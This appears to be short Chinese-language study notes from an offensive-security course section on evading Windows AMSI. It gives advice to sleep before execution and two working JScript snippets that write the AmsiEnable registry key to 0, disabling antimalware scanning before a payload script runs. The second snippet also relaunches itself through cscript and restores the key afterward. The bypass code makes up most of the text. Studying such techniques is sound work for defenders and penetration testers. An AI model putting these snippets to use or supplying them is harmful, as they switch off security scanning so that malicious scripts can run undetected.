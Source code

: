 ## 7.6.1 Detecting the AMSI API Flow
在脚本执行前使用sleep(2000) 进行绕过

## 7.6.2 Is That Your Registry Key?

在runner.js 脚本前添加bypass脚本

amsi bypass 1
```js
var sh = new ActiveXObject('WScript.Shell');
var key = "HKCU\\Software\\Microsoft\\Windows Script\\Settings\\AmsiEnable";
sh.RegWrite(key, 0, "REG_DWORD");
```

amsi bypass 2
```
var sh = new ActiveXObject('WScript.Shell');
var key = "HKCU\\Software\\Microsoft\\Windows Script\\Settings\\AmsiEnable";
try{
var AmsiEnable = sh.RegRead(key);
if(AmsiEnable!=0){
throw new Error(1, '');
}
}catch(e){
sh.RegWrite(key, 0, "REG_DWORD");
sh.Run("cscript -e:{F414C262-6AC0-11CF-B6D1-00AA00BBBB58}"+WScript.ScriptFullName,0,1);
sh.RegWrite(key, 1, "REG_DWORD");
WScript.Quit(1);
}
```

## 

